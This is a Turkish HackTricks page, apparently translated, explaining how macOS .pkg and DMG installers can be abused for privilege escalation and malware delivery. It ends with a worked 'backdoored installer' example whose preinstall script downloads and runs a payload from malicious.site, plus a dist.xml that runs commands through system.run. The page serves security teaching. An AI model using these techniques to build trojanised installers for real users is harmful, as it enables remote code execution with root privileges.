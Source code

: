 # macOS Yükleyici İstismarı

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Pkg Temel Bilgiler

macOS **yükleyici paketi** (aynı zamanda `.pkg` dosyası olarak da bilinir), macOS tarafından **yazılım dağıtımı** için kullanılan bir dosya formatıdır. Bu dosyalar, bir yazılım parçasının doğru bir şekilde yüklenmesi ve çalışması için gereken her şeyi içeren bir **kutunun** içindeymiş gibi davranır.

Paket dosyası, hedef bilgisayara yüklenecek **dosya ve dizinlerin hiyerarşisini** tutan bir arşivdir. Ayrıca, yapılandırma dosyalarını ayarlamak veya yazılımın eski sürümlerini temizlemek gibi yüklemeden önce ve sonra görevleri yerine getirmek için **scriptler** de içerebilir.

### Hiyerarşi

<figure><img src="../../../.gitbook/assets/Pasted Graphic.png" alt="https://www.youtube.com/watch?v=iASSG0_zobQ"><figcaption></figcaption></figure>

* **Dağıtım (xml)**: Özelleştirmeler (başlık, karşılama metni…) ve script/yükleme kontrolleri
* **Paket Bilgisi (xml)**: Bilgi, yükleme gereksinimleri, yükleme yeri, çalıştırılacak scriptlerin yolları
* **Malzeme listesi (bom)**: Yüklenmesi, güncellenmesi veya kaldırılması gereken dosyaların listesi ve dosya izinleri
* **Yük (CPIO arşivi gzip sıkıştırılmış)**: Paket Bilgisi'nden `install-location`'da yüklenecek dosyalar
* **Scriptler (CPIO arşivi gzip sıkıştırılmış)**: Yükleme öncesi ve sonrası scriptler ve yürütme için geçici bir dizine çıkarılan daha fazla kaynak.

### Sıkıştırmayı Aç
```bash
# Tool to directly get the files inside a package
pkgutil —expand "/path/to/package.pkg" "/path/to/out/dir"

# Get the files ina. more manual way
mkdir -p "/path/to/out/dir"
cd "/path/to/out/dir"
xar -xf "/path/to/package.pkg"

# Decompress also the CPIO gzip compressed ones
cat Scripts | gzip -dc | cpio -i
cpio -i < Scripts
```
In order to visualize the contents of the installer without decompressing it manually you can also use the free tool [**Suspicious Package**](https://mothersruin.com/software/SuspiciousPackage/).

## DMG Temel Bilgiler

DMG dosyaları, veya Apple Disk Görüntüleri, Apple'ın macOS'u tarafından disk görüntüleri için kullanılan bir dosya formatıdır. Bir DMG dosyası esasen **monte edilebilir bir disk görüntüsü** (kendi dosya sistemini içerir) olup, genellikle sıkıştırılmış ve bazen şifrelenmiş ham blok verileri içerir. Bir DMG dosyasını açtığınızda, macOS **onu fiziksel bir disk gibi monte eder**, böylece içeriğine erişebilirsiniz.

{% hint style="danger" %}
Not edin ki **`.dmg`** yükleyicileri **çok sayıda formatı** destekler, geçmişte bazıları zafiyetler içerdiği için **kernel kodu yürütme** elde etmek için istismar edilmiştir.
{% endhint %}

### Hiyerarşi

<figure><img src="../../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

Bir DMG dosyasının hiyerarşisi içeriğe bağlı olarak farklı olabilir. Ancak, uygulama DMG'leri için genellikle bu yapıyı takip eder:

* Üst Düzey: Bu, disk görüntüsünün köküdür. Genellikle uygulamayı ve muhtemelen Uygulamalar klasörüne bir bağlantı içerir.
* Uygulama (.app): Bu, gerçek uygulamadır. macOS'ta, bir uygulama genellikle uygulamayı oluşturan birçok bireysel dosya ve klasörü içeren bir pakettir.
* Uygulamalar Bağlantısı: Bu, macOS'taki Uygulamalar klasörüne bir kısayoldur. Bunun amacı, uygulamayı yüklemenizi kolaylaştırmaktır. Uygulama dosyasını bu kısayola sürükleyerek uygulamayı yükleyebilirsiniz.

## pkg istismarı ile Privesc

### Kamu dizinlerinden yürütme

Eğer bir ön veya sonrası yükleme betiği örneğin **`/var/tmp/Installerutil`** dizininden yürütülüyorsa ve saldırgan bu betiği kontrol edebiliyorsa, her yürütüldüğünde ayrıcalıkları artırabilir. Veya başka bir benzer örnek:

<figure><img src="../../../.gitbook/assets/Pasted Graphic 5.png" alt="https://www.youtube.com/watch?v=iASSG0_zobQ"><figcaption><p><a href="https://www.youtube.com/watch?v=kCXhIYtODBg">https://www.youtube.com/watch?v=kCXhIYtODBg</a></p></figcaption></figure>

### AuthorizationExecuteWithPrivileges

Bu, birkaç yükleyici ve güncelleyici tarafından **root olarak bir şey yürütmek için** çağrılan bir [kamusal işlevdir](https://developer.apple.com/documentation/security/1540038-authorizationexecutewithprivileg). Bu işlev, **yürütülecek dosyanın** **yolunu** parametre olarak kabul eder, ancak eğer bir saldırgan bu dosyayı **değiştirebilirse**, root ile yürütmesini **istismar edebilir** ve **ayrıcalıkları artırabilir**.
```bash
# Breakpoint in the function to check wich file is loaded
(lldb) b AuthorizationExecuteWithPrivileges
# You could also check FS events to find this missconfig
```
For more info check this talk: [https://www.youtube.com/watch?v=lTOItyjTTkw](https://www.youtube.com/watch?v=lTOItyjTTkw)

### Montaj ile yürütme

Eğer bir yükleyici `/tmp/fixedname/bla/bla` yoluna yazıyorsa, yükleme sürecini kötüye kullanmak için yükleme sırasında **herhangi bir dosyayı değiştirmek** amacıyla **/tmp/fixedname** üzerinde noowners ile **bir montaj oluşturmak** mümkündür.

Bunun bir örneği **CVE-2021-26089**'dur; bu, root olarak yürütme elde etmek için **dönemsel bir betiği** **üst üste yazmayı** başarmıştır. Daha fazla bilgi için konuşmaya göz atın: [**OBTS v4.0: "Mount(ain) of Bugs" - Csaba Fitzl**](https://www.youtube.com/watch?v=jSYPazD4VcE)

## pkg kötü amaçlı yazılım olarak

### Boş Yük

Gerçek bir yük olmadan, sadece **kötü amaçlı yazılım** içeren **ön ve sonrası yükleme betikleri** ile bir **`.pkg`** dosyası oluşturmak mümkündür.

### Dağıtım xml'inde JS

Paketin **dağıtım xml** dosyasına **`<script>`** etiketleri eklemek mümkündür ve bu kod yürütülecek ve **`system.run`** kullanarak **komutlar** **yürütülebilir**:

<figure><img src="../../../.gitbook/assets/image (1043).png" alt=""><figcaption></figcaption></figure>

### Arka kapılı Yükleyici

dist.xml içinde bir betik ve JS kodu kullanan kötü niyetli yükleyici
```bash
# Package structure
mkdir -p pkgroot/root/Applications/MyApp
mkdir -p pkgroot/scripts

# Create preinstall scripts
cat > pkgroot/scripts/preinstall <<EOF
#!/bin/bash
echo "Running preinstall script"
curl -o /tmp/payload.sh http://malicious.site/payload.sh
chmod +x /tmp/payload.sh
/tmp/payload.sh
exit 0
EOF

# Build package
pkgbuild --root pkgroot/root --scripts pkgroot/scripts --identifier com.malicious.myapp --version 1.0 myapp.pkg

# Generate the malicious dist.xml
cat > ./dist.xml <<EOF
<?xml version="1.0" encoding="utf-8"?>
<installer-gui-script minSpecVersion="1">
<title>Malicious Installer</title>
<options customize="allow" require-scripts="false"/>
<script>
<![CDATA[
function installationCheck() {
if (system.isSandboxed()) {
my.result.title = "Cannot install in a sandbox.";
my.result.message = "Please run this installer outside of a sandbox.";
return false;
}
return true;
}
function volumeCheck() {
return true;
}
function preflight() {
system.run("/path/to/preinstall");
}
function postflight() {
system.run("/path/to/postinstall");
}
]]>
</script>
<choices-outline>
<line choice="default">
<line choice="myapp"/>
</line>
</choices-outline>
<choice id="myapp" title="MyApp">
<pkg-ref id="com.malicious.myapp"/>
</choice>
<pkg-ref id="com.malicious.myapp" installKBytes="0" auth="root">#myapp.pkg</pkg-ref>
</installer-gui-script>
EOF

# Buil final
productbuild --distribution dist.xml --package-path myapp.pkg final-installer.pkg
```
## Referanslar

* [**DEF CON 27 - Pkg'leri Açma: Macos Yükleyici Paketlerine ve Yaygın Güvenlik Açıklarına Bir Bakış**](https://www.youtube.com/watch?v=iASSG0\_zobQ)
* [**OBTS v4.0: "macOS Yükleyicilerinin Vahşi Dünyası" - Tony Lambert**](https://www.youtube.com/watch?v=Eow5uNHtmIg)
* [**DEF CON 27 - Pkg'leri Açma: MacOS Yükleyici Paketlerine Bir Bakış**](https://www.youtube.com/watch?v=kCXhIYtODBg)
* [https://redteamrecipe.com/macos-red-teaming?utm\_source=pocket\_shared#heading-exploiting-installer-packages](https://redteamrecipe.com/macos-red-teaming?utm\_source=pocket\_shared#heading-exploiting-installer-packages)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
